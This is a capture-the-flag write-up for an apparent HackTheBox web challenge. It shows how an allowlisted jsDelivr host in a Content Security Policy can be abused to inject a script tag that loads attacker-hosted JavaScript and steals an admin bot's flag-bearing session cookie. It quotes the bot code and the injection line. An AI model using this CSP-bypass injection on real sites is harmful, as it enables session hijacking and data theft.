 # Cursed Secret Party

We start on this web page:

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We capture the request and see that it looks like this:

<figure><img src="../../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

In the response we can see a CSP, so we head to [https://csp-evaluator.withgoogle.com/](https://csp-evaluator.withgoogle.com/) and look to see if the CSP is safe:

<figure><img src="../../../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the&#x20;

script-src is not safe according to the website&#x20;

```
Host allowlists can frequently be bypassed. Consider using 'strict-dynamic' in combination with CSP nonces or hashes.
```

on top of that The cdn.jsdelivr.net host is whitelisted to load JavaScript files. JSDeliver is a free CDN that allows for loading any JavaScript files hosted in NPM or GitHub

in the bot.js file i find the following line to show the flag:&#x20;

```
	let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
```

```
const visit = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await JWTHelper.sign({ username: 'admin', user_role: 'admin', flag: flag });
		await page.setCookie({
			name: 'session',
			value: token,
			domain: '127.0.0.1:1337'
		});

		await page.goto('http://127.0.0.1:1337/admin', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		await page.goto('http://127.0.0.1:1337/admin/delete_all', {
			waitUntil: 'networkidle2',
			timeout: 5000
		});

		setTimeout(() => {
			browser.close();
		}, 5000);
```

```
<script src="https://github.com/felixbillieres/HTBjsdelivryexploit/blob/main/test.js"> </script>
```

the syntax to create a jsDeliver file is [https://cdn.jsdelivr.net/gh/\<USERNAME>/\<REPO>@\<BRANCH>/\<PATH\_TO\_FILE>\
](https://cdn.jsdelivr.net/gh/%3CUSERNAME%3E/%3CREPO%3E@%3CBRANCH%3E/%3CPATH_TO_FILE%3E) so i adapt it to my repo:

[https://cdn.jsdelivr.net/gh/felixbillieres/HTBjsdelivryexploit@main/test.js](https://cdn.jsdelivr.net/gh/felixbillieres/HTBjsdelivryexploit@main/test.js)-- -

<figure><img src="../../../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
